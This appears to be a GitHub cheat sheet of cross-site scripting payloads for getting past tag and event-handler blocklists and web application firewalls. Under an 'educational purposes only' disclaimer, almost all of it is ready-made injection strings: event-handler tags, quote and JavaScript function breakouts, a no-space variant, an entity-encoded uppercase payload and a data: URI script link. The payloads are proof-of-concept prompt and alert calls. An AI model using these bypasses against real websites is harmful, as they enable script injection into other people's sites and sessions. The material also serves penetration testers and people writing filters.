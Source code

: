 Warning
==============

All the information provided on this site is for educational purposes only.

The site or the authors are not responsible for any misuse of the information.

You shall not misuse the information to gain unauthorized access and/or write malicious programs.

These information shall only be used to expand knowledge and not for causing malicious or damaging attacks.

Did you break out of a tag and script, iframe, img, a, &gt; etc are all blocked?
==============

Did they block onerror onload onclick? Try something like this:
```html
<XXXXXXX ondblclick=prompt(1)>Some Text, Don't even care to end the tag either.
```
If you just need to break out for Proof of Concept and can't use a > to close your tag, this will utilize the " in your injection.
```html
" onclick="prompt(1)
```
WAF got you down? There are a ton of bypasses, look at HTML5 for more ideas also (Just remember IE vs Firefox and HTML5 support.
```html
<body onpageshow="prompt(123)">
<details open ontoggle="prompt('xss via toggle')">Toggle Me For More prompts</details>
<video onmouseenter=prompt(123)>
```

Don't forget the injection might not be a form tag but in the javascript.
==============
```html
";prompt(1);//

';prompt(1);//

<script>
var a = 'a'*prompt(123)*'a';
var b = "a"*prompt(456)*"a";
</script>
```

What if they are in a function? Break out of it. Count the brackets, etc to kill the function.
```html
"};prompt(1);//
```
You may need to reconstruct the function
```html
"};prompt(1);function whatever(){//
```

Don't forget %0D%0A if you need a new line

Obscure Breakout
==============
```html
a'*prompt(123)*'
```
Event Handlers You Should Investigate to bypass WAF
==============
https://www.w3.org/TR/html52/single-page.html

When you can't use spaces
==============
```html
<details/open/ontoggle=prompt(123)>
```
When the text is forced UPPERCASE
==============
```html
<IMG SRC=1 ONERROR=&#X61;&#X6C;&#X65;&#X72;&#X74;(1)>
```
Just for fun
==============
```html
<a/href="data:text/html;charset=utf-8,<script>alert(123)</script>">Just Interesting</a>
```
Internet Explorer can be your friend
==============
A lot of times you will notice that " or ' has become %22 or %27 in Chrome, Firefox, Opera etc. But did you try Internet Explorer. Many times you can get an Internet Explorer only XSS due to how the browser works.
